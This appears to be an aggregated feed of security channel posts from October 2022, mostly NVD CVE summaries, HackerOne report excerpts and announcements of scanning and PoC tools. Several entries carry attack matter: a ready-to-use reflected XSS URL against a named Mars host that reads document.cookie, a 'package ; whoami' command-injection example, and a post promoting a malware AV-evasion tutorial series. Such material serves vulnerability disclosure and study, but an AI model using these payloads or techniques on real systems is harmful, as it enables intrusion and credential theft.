* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41773

<blockquote>
‼ CVE-2022-41773 ‼

The affected product DIAEnergie (versions prior to v1.9.01.002) is vulnerable to a SQL injection that exists in CheckDIACloud. A low-privileged authenticated attacker could exploit this issue to inject arbitrary SQL queries.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-0072

<blockquote>
‼ CVE-2022-0072 ‼

Directory Traversal vulnerability in LiteSpeed Technologies OpenLiteSpeed Web Server Dashboard allows Path Traversal. This affects versions from 1.5.11 through 1.5.12, from 1.6.5 through 1.6.20.1, from 1.7.0 before 1.7.16.1

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-27`

<blockquote>
Mars: Jolokia Reflected XSS
https://vulners.com/hackerone/H1:1714563?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1714563?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1714563?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: (salam) Hi team i hope you are well , after doing some recon on mars.com i saw that the website use jolkia 1.3.5 it's vulnerable to reflected XSS   Steps To Reproduce:  Vuln Link : https://couponsmanager-uat.b2b.mars.com/jolokia/read%3Csvg%20onload&#61;alert(document.cookie)%3E?mimeType&#61;text/html  Supporting Material/References: CVE-2018-1000129 Jolkia - Version {F1957663} POC {F1957668} Impact If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can: Perform any action within the application that the user can perform. View any information that the user is able to view. Modify any information that the user is able to modify. Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40183

<blockquote>
‼ CVE-2022-40183 ‼

An error in the URL handler of the VIDEOJET multi 4000 may lead to a reflected cross site scripting (XSS) in the web-based interface. An attacker with knowledge of the encoder address can send a crafted link to a user, which will execute JavaScript code in the context of the user.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42993

<blockquote>
‼ CVE-2022-42993 ‼

Password Storage Application v1.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the Setup page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38744

<blockquote>
‼ CVE-2022-38744 ‼

An unauthenticated attacker with network access to a victim's Rockwell Automation FactoryTalk Alarm and Events service could open a connection, causing the service to fault and become unavailable. The affected port could be used as a server ping port and uses messages structured with XML.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42991

<blockquote>
‼ CVE-2022-42991 ‼

A stored cross-site scripting (XSS) vulnerability in Simple Online Public Access Catalog v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Edit Account Full Name field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42992

<blockquote>
‼ CVE-2022-42992 ‼

Multiple stored cross-site scripting (XSS) vulnerabilities in Train Scheduler App v1.0 allow attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Train Code, Train Name, and Destination text fields.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-45476

<blockquote>
‼ CVE-2021-45476 ‼

Yordam Library Information Document Automation product before version 19.02 has an unauthenticated reflected XSS vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3714

<blockquote>
‼ CVE-2022-3714 ‼

A vulnerability classified as critical has been found in SourceCodester Online Medicine Ordering System 1.0. Affected is an unknown function of the file admin/?page&#61;orders/view_order. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. VDB-212346 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-27`

<blockquote>
Отзыв бедолаги на курс «SQL-injection Master»
https://codeby.net/threads/otzyv-bedolagi-na-kurs-sql-injection-master.80714/
</blockquote>

<table><tr><td><b>→</b><a href="https://codeby.net/threads/otzyv-bedolagi-na-kurs-sql-injection-master.80714/">
https://codeby.net/threads/otzyv-bedolagi-na-kurs-sql-injection-master.80714/
</a>
<blockquote>
Привет уважаемые форумчане. Настала пора поделиться с вами отзывом по прекрасному курсу «SQL-injection Master».

Для тех, кто не любит читать скажу сразу, курс мне очень понравился и я ни разу не...
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-27`

* https://telegra.ph/file/10dbaffc566b457feb0a1.jpg
* https://github.com/Dancas93/SSRF-Scanner

<blockquote>
​​SSRF-Scanner

SSRF(Server-side request forgery) is a trending vulnerability identified in most web applications in which attackers can cause server-side applications to make HTTP requests to arbitrary domains or subdomains. SSRF-Scanner tool is an automated tool that can find the potential SSRF issues actually from a Infrastructure prospective. 

SSRF-Scanner helps you detect potential SSRF headers and validates the finding it by making a HTTP request back to your server. Actually it support only headers attack but in future versions will also include scanning from an application perspective.

https://github.com/Dancas93/SSRF-Scanner
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/10dbaffc566b457feb0a1.jpg">
https://telegra.ph/file/10dbaffc566b457feb0a1.jpg
</a>
</td></tr></table>

---

# hackgit
`2022-10-27`

* https://www.youtube.com/watch?v=u3KZUMXaFKw
* https://github.com/numencyber/VulnerabilityPoC
* https://medium.com/@numencyberlabs/analysis-and-summary-of-tcp-ip-protocol-remote-code-execution-vulnerability-cve-2022-34718-8fcc28538acf

<blockquote>
CVE-2022–34718

TCP/IP RCE Vulnerability (CVE-2022–34718) PoC Restoration and Analysis.

https://github.com/numencyber/VulnerabilityPoC

Details:
https://medium.com/@numencyberlabs/analysis-and-summary-of-tcp-ip-protocol-remote-code-execution-vulnerability-cve-2022-34718-8fcc28538acf

&#35;cve &#35;poc
</blockquote>

<table><tr><td><b>→</b><a href="https://www.youtube.com/watch?v=u3KZUMXaFKw">
https://www.youtube.com/watch?v=u3KZUMXaFKw
</a>
<blockquote>
POC
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40703

<blockquote>
‼ CVE-2022-40703 ‼

CWE-302 Authentication Bypass by Assumed-Immutable Data in AliveCor Kardia App version 5.17.1-754993421 and prior on Android allows an unauthenticated attacker with physical access to the Android device containing the app to bypass application authentication and alter information in the app.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-20959

<blockquote>
‼ CVE-2022-20959 ‼

A vulnerability in the External RESTful Services (ERS) API of Cisco Identity Services Engine (ISE) Software could allow an authenticated, remote attacker to conduct a cross-site scripting (XSS) attack against a user of the interface of an affected device. This vulnerability is due to insufficient input validation. An attacker could exploit this vulnerability by persuading an authenticated administrator of the web-based management interface to click a malicious link. A successful exploit could allow the attacker to execute arbitrary script code in the context of the affected interface or access sensitive, browser-based information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-25849

<blockquote>
‼ CVE-2022-25849 ‼

The package joyqi/hyper-down from 0.0.0 are vulnerable to Cross-site Scripting (XSS) because the module of parse markdown does not filter the href attribute very well.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38162

<blockquote>
‼ CVE-2022-38162 ‼

Reflected cross-site scripting (XSS) vulnerabilities in WithSecure through 2022-08-10) exists within the F-Secure Policy Manager due to an unvalidated parameter in the endpoint, which allows remote attackers to provide a malicious input.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-31468

<blockquote>
‼ CVE-2022-31468 ‼

OX App Suite through 8.2 allows XSS via an attachment or OX Drive content when a client uses the len or off parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36451

<blockquote>
‼ CVE-2022-36451 ‼

A vulnerability in the MiCollab Client server component of Mitel MiCollab through 9.5.0.101 could allow an authenticated attacker to conduct a Server-Side Request Forgery (SSRF) attack due to insufficient restriction of URL parameters. A successful exploit could allow an attacker to leverage connections and permissions available to the host server.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-27913

<blockquote>
‼ CVE-2022-27913 ‼

An issue was discovered in Joomla! 4.2.0 through 4.2.3. Inadequate filtering of potentially malicious user input leads to reflected XSS vulnerabilities in various components.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36452

<blockquote>
‼ CVE-2022-36452 ‼

A vulnerability in the web conferencing component of Mitel MiCollab through 9.5.0.101 could allow an unauthenticated attacker to upload malicious files. A successful exploit could allow an attacker to execute arbitrary code within the context of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38196

<blockquote>
‼ CVE-2022-38196 ‼

Esri ArcGIS Server versions 10.9.1 and prior have a path traversal vulnerability that may result in a denial of service by allowing a remote, authenticated attacker to overwrite internal ArcGIS Server directory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39327

<blockquote>
‼ CVE-2022-39327 ‼

Azure CLI is the command-line interface for Microsoft Azure. In versions previous to 2.40.0, Azure CLI contains a vulnerability for potential code injection. Critical scenarios are where a hosting machine runs an Azure CLI command where parameter values have been provided by an external source. The vulnerability is only applicable when the Azure CLI command is run on a Windows machine and with any version of PowerShell and when the parameter value contains the `&amp;` or `|` symbols. If any of these prerequisites are not met, this vulnerability is not applicable. Users should upgrade to version 2.40.0 or greater to receive a a mitigation for the vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38199

<blockquote>
‼ CVE-2022-38199 ‼

A remote file download issue can occur in some capabilities of Esri ArcGIS Server web services that may in some edge cases allow a remote, unauthenticated attacker to induce an unsuspecting victim to launch a process in the victim's PATH environment. Current browsers provide users with warnings against running unsigned executables downloaded from the internet.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39350

<blockquote>
‼ CVE-2022-39350 ‼

@dependencytrack/frontend is a Single Page Application (SPA) used in Dependency-Track, an open source Component Analysis platform that allows organizations to identify and reduce risk in the software supply chain. Due to the common practice of providing vulnerability details in markdown format, the Dependency-Track frontend renders them using the JavaScript library Showdown. Showdown does not have any XSS countermeasures built in, and versions before 4.6.1 of the Dependency-Track frontend did not encode or sanitize Showdown's output. This made it possible for arbitrary JavaScript included in vulnerability details via HTML attributes to be executed in context of the frontend. Actors with the `VULNERABILITY_MANAGEMENT` permission can exploit this weakness by creating or editing a custom vulnerability and providing XSS payloads in any of the following fields: Description, Details, Recommendation, or References. The payload will be executed for users with the `VIEW_PORTFOLIO` permission when browsing to the modified vulnerability's page. Alternatively, malicious JavaScript could be introduced via any of the vulnerability databases mirrored by Dependency-Track. However, this attack vector is highly unlikely, and the maintainers of Dependency-Track are not aware of any occurrence of this happening. Note that the `Vulnerability Details` element of the `Audit Vulnerabilities` tab in the project view is not affected. The issue has been fixed in frontend version 4.6.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39326

<blockquote>
‼ CVE-2022-39326 ‼

kartverket/github-workflows are shared reusable workflows for GitHub Actions. Prior to version 2.7.5, all users of the `run-terraform` reusable workflow from the kartverket/github-workflows repo are affected by a code injection vulnerability. A malicious actor could potentially send a PR with a malicious payload leading to execution of arbitrary JavaScript code in the context of the workflow. Users should upgrade to at least version 2.7.5 to resolve the issue. As a workaround, review any pull requests from external users for malicious payloads before allowing them to trigger a build.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38435

<blockquote>
‼ CVE-2022-38435 ‼

Adobe Illustrator versions 26.4 (and earlier) and 25.4.7 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-29889

<blockquote>
‼ CVE-2022-29889 ‼

A hard-coded password vulnerability exists in the telnet functionality of Abode Systems, Inc. iota All-In-One Security Kit 6.9Z. Use of a hard-coded root password can lead to arbitrary command execution. An attacker can authenticate with hard-coded credentials to trigger this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38580

<blockquote>
‼ CVE-2022-38580 ‼

Zalando Skipper v0.13.236 is vulnerable to Server-Side Request Forgery (SSRF).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3246

<blockquote>
‼ CVE-2022-3246 ‼

The Blog2Social: Social Media Auto Post &amp; Scheduler WordPress plugin before 6.9.10 does not properly sanitise and escape a parameter before using it in a SQL statement, leading to a SQL injection exploitable by any authenticated users, such as subscribers

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38198

<blockquote>
‼ CVE-2022-38198 ‼

There is a reflected cross site scripting issue in the Esri ArcGIS Server services directory versions 10.9.1 and below that may allow a remote, unauthenticated attacker to convince a user to click on a crafted link which could potentially execute arbitrary JavaScript code in the victim’s browser.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-27622

<blockquote>
‼ CVE-2022-27622 ‼

Server-Side Request Forgery (SSRF) vulnerability in Package Center functionality in Synology DiskStation Manager (DSM) before 7.1-42661 allows remote authenticated users to access intranet resources via unspecified vectors.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3302

<blockquote>
‼ CVE-2022-3302 ‼

The Spam protection, AntiSpam, FireWall by CleanTalk WordPress plugin before 5.185.1 does not validate ids before using them in a SQL statement, which could lead to SQL injection exploitable by high privilege users such as admin

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3395

<blockquote>
‼ CVE-2022-3395 ‼

The WP All Export Pro WordPress plugin before 1.7.9 uses the contents of the cc_sql POST parameter directly as a database query, allowing users which has been given permission to run exports to execute arbitrary SQL statements, leading to a SQL Injection vulnerability. By default only users with the Administrator role can perform exports, but this can be delegated to lower privileged users as well.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3393

<blockquote>
‼ CVE-2022-3393 ‼

The Post to CSV by BestWebSoft WordPress plugin through 1.4.0 does not properly escape fields when exporting data as CSV, leading to a CSV injection

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-25`

<blockquote>
Hyperledger: CVE-2017-5929: Hyperledger - Arbitrary Deserialization of Untrusted Data
https://vulners.com/hackerone/H1:1739099?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1739099?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1739099?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Vulnerability Overview Serialization is a process of converting an object into a sequence of bytes which can be persisted to a disk or database or can be sent through streams. The reverse process of creating object from sequence of bytes is called deserialization. Serialization is commonly used for communication (sharing objects between multiple hosts) and persistence (store the object state in a file or a database). It is an integral part of popular protocols like Remote Method Invocation (RMI), Java Management Extension (JMX), Java Messaging System (JMS), Action Message Format (AMF), Java Server Faces (JSF) ViewState, etc. Deserialization of untrusted data (CWE-502), is when the application deserializes untrusted data without sufficiently verifying that the resulting data will be valid, letting the attacker to control the state or the flow of the execution. Java deserialization issues have been known for years. However, interest in the issue intensified greatly in 2015, when classes that could be abused to…
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-25`

<blockquote>
Adobe: DOM XSS at `https://adobedocs.github.io/OAE_PartnerAPI/?configUrl&#61;{site}` due to outdated Swagger UI
https://vulners.com/hackerone/H1:1736378?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

---

# defcon_news
`2022-10-25`

<blockquote>
Hyperledger: POOL_UPGRADE request handler may allow an unauthenticated attacker to remotely execute code on every node in the network.
https://vulners.com/hackerone/H1:1705717?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1705717?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1705717?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
This issue is related to the https://github.com/hyperledger/indy-node.  The issue was found in the indy-node code that handles the write request of type *POOL_UPGRADE (in file* indy-node/indy_node/server/request_handlers/config_req_handlers/pool_upgrade_handler.py).**  The additional_dynamic_validation function handles an undocumented field called package that can contain the name of the package to be upgraded. I case that this field is not empty, it is passed as is to the following functions self.upgrader.check_upgrade_possible -&gt; NodeControlUtil.curr_pkg_info -&gt; cls._get_curr_info. python def _get_curr_info(cls, package):     cmd &#61; compose_cmd(['dpkg', '-s', package])     return cls.run_shell_command(cmd) As seen in the code snippet above, the user supplied name is then concatenated to the string dpkg -s and is run as a system command without any sanitization.  This can lead to an attacker supplying a package name, followed by a semicolon and another system command (e.g. package ; whoami), resulting in a remote…
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-25`

<blockquote>
Shopify: XSS in www.shopify.com/markets?utm_source&#61;
https://vulners.com/hackerone/H1:1699762?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://www.shopify.com/markets?utm_source=">
https://www.shopify.com/markets?utm_source=
</a>
<blockquote>
Scale your business with international ecommerce. Convert currencies, change languages, collect duties and import tax, and more.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-25`

<blockquote>
U.S. Dept Of Defense: Blind SSRF via image upload URL downloader on https://██████/
https://vulners.com/hackerone/H1:1691501?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1691501?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1691501?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Description: Dear DoD, I found Blind SSRF on one domain from Hack US program.  Original domain is https:// █████/ but when you make account and login it redirects you to https:// ███/my/. Here's the video PoC:  ██████ Thank you! Impact In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials. The attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution. System Host(s)  ███████ Affected Product(s) and Version(s) Web App is infected. CVE Numbers Steps to Reproduce  Create a one test account. Login to that account.…
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-25`

* https://telegra.ph/file/9767afc209b6b780c1bbb.jpg
* https://github.com/s3c-krd/s3cXSSer
* https://t.me/hackgit

<blockquote>
​​s3cXSSer

This extension will help you to detect GET/POST based XSS vulnerability in any website easily

https://github.com/s3c-krd/s3cXSSer

t.me/hackgit
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/9767afc209b6b780c1bbb.jpg">
https://telegra.ph/file/9767afc209b6b780c1bbb.jpg
</a>
</td></tr></table>

---

# defcon_news
`2022-10-25`

<blockquote>
Apple Releases Patch for New Actively Exploited iOS and iPadOS Zero-Day Vulnerability
https://thehackernews.com/2022/10/apple-releases-patch-for-new-actively.html
</blockquote>

---

# cibsecurity
`2022-10-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-46279

<blockquote>
‼ CVE-2021-46279 ‼

Session fixation and insufficient session expiration vulnerabilities allow an attacker to perfom session hijacking attacks against users. This issue affects: Lanner Inc IAC-AST2500A standard firmware version 1.10.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-44769

<blockquote>
‼ CVE-2021-44769 ‼

An improper input validation vulnerability in the TLS certificate generation function allows an attacker to cause a Denial-of-Service (DoS) condition which can only be reverted via a factory reset. This issue affects: Lanner Inc IAC-AST2500A standard firmware version 1.10.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-24`

* https://telegra.ph/file/8424b5f2ea7582ce196f5.png
* https://github.com/ReCryptLLC/CVE-2022-42045

<blockquote>
​​CVE-2022-42045

We discovered an Arbitrary code injection in Zemana amsdk.sys kernel-mode driver, a part of Zemana Antimalware SDK. The vulnerability allows to inject an arbitrary code into the one of the driver code sections and then to execute it with kernel-mode privileges (local privileges escalation from admin to kernel mode). This vulnerability could be used, for example, to disable Driver Signature Enforcement and then to install unsigned kernel-mode drivers.

https://github.com/ReCryptLLC/CVE-2022-42045

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/8424b5f2ea7582ce196f5.png">
https://telegra.ph/file/8424b5f2ea7582ce196f5.png
</a>
</td></tr></table>

---

# freedomf0x
`2022-10-24`

* https://attack.mitre.org/tactics/TA0005/
* https://attack.mitre.org/tactics/TA0005/
* https://evasions.checkpoint.com/techniques/registry.html
* https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html
* https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html
* https://github.com/cocomelonc/2021-04-09-av-evasion-1-
* https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html
* https://github.com/cocomelonc/2021-09-06-av-evasion-2
* https://cocomelonc.github.io/tutorial/2021/12/25/simple-malware-av-evasion-3.html
* https://github.com/cocomelonc/2021-12-21-simple-malware-av-evasion-3
* https://cocomelonc.github.io/tutorial/2022/03/18/simple-malware-av-evasion-4.html
* https://github.com/cocomelonc/2022-03-18-malware-av-evasion-4
* https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html
* https://github.com/cocomelonc/2022-03-22-malware-av-evasion-5
* https://cocomelonc.github.io/tutorial/2022/04/09/malware-av-evasion-6.html
* https://github.com/cocomelonc/2022-04-09-malware-av-evasion-6
* https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
* https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
* https://github.com/cocomelonc/2022-07-29-malware-av-evasion-8
* https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
* https://github.com/cocomelonc/2022-08-16-malware-av-evasion-9
* https://cocomelonc.github.io/malware/2022/09/15/malware-av-evasion-10.html
* https://github.com/cocomelonc/2022-09-15-malware-av-evasion-10

<blockquote>
|AV engines evasion|

🛡Только в ознакомительных целях!
Цикл статей про обход АВ движков и написание малваря на   C++, который будет запускать пэйлоад.
💥Перед прочтением советую ознакомиться с тактиками обхода средств защиты информации от MITRE ATT&amp;CK.

🛡For educational purposes only!
A series of articles about evasion AV engines and writing malware in C++ that will launch the payload.
💥 Before reading, I advise you to familiarize yourself with the tactics of Defense Evasion from MITRE ATT&amp;CK.

🔥Evasions: Registry
🔥Classic code injection into the process
🔥часть1/part1 +📔исходный код/source code
🔥часть2/part2 +📔исходный код/source code
🔥часть3/part3 +📔исходный код/source code
🔥часть4/part4 +📔исходный код/source code
🔥часть5/part5 +📔исходный код/source code
🔥часть6/part6 +📔исходный код/source code
🔥часть7/part7(Disable Windows Defender) +
📔исходный код/source code 
🔥часть8/part8(Encode payload via Z85 algorithm) +
📔исходный код/source code 
🔥часть9/part9( Encrypt base64 encoded payload via RC4) +
📔исходный код/source code 
🔥часть10/part10(anti-debugging. NtGlobalFlag) +
📔исходный код/source code 

&#35;malwareDevelopment &#35;av &#35;evasion &#35;WinDefender &#35;antiReverse
</blockquote>

---

# hackgit
`2022-10-23`

* https://telegra.ph/file/d87672b6536e37a77f2c8.jpg
* https://github.com/Qeisi/CVE-2022-36663-PoC

<blockquote>
​​CVE-2022-36663-PoC

Internal network scanner through Gluu IAM blind ssrf

Gluu IAM is vulnerable to blind SSRF which can be exploited to scan the internal network for open ports depending on response times.

https://github.com/Qeisi/CVE-2022-36663-PoC

&#35;cve &#35;poc
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/d87672b6536e37a77f2c8.jpg">
https://telegra.ph/file/d87672b6536e37a77f2c8.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-26870

<blockquote>
‼ CVE-2022-26870 ‼

Dell PowerStore versions 2.1.0.x contain an Authentication bypass vulnerability. A remote unauthenticated attacker could potentially exploit this vulnerability under specific configuration. An attacker would gain unauthorized access upon successful exploit.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34439

<blockquote>
‼ CVE-2022-34439 ‼

Dell PowerScale OneFS, versions 8.2.0.x-9.4.0.x contain allocation of Resources Without Limits or Throttling vulnerability. A remote unauthenticated attacker could potentially exploit this vulnerability, leading to denial of service and performance issue on that node.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-1059

<blockquote>
‼ CVE-2022-1059 ‼

Aethon TUG Home Base Server versions prior to version 24 are affected by un unauthenticated attacker who can freely access hashed user credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41638

<blockquote>
‼ CVE-2022-41638 ‼

Auth. Stored Cross-Site Scripting (XSS) in Pop-Up Chop Chop plugin &lt;&#61; 2.1.7 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-27494

<blockquote>
‼ CVE-2022-27494 ‼

Aethon TUG Home Base Server versions prior to version 24 are affected by un unauthenticated attacker who can freely access hashed user credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40311

<blockquote>
‼ CVE-2022-40311 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) in Fatcat Apps Analytics Cat plugin &lt;&#61; 1.0.9 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-1070

<blockquote>
‼ CVE-2022-1070 ‼

Aethon TUG Home Base Server versions prior to version 24 are affected by un unauthenticated attacker who can freely access hashed user credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-21`

